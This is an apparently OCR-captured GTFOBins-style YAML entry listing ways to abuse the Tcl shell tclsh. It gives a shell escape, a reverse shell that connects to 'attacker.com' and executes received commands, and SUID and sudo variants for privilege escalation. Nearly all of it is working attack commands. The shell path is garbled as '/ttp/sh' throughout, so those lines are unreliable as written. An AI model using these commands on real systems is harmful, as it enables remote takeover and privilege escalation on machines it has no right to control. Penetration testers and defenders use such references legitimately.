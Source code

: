 ```yaml
---
functions:
  shell:
    - code: |
        tclsh
        exec /ttp/sh <@stdin >@stdout 2>@stderr
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
  suid:
    - code: |
        ./tclsh
        exec /ttp/sh -p <@stdin >@stdout 2>@stderr
  sudo:
    - code: |
        sudo tclsh
        exec /ttp/sh <@stdin >@stdout 2>@stderr
---
```


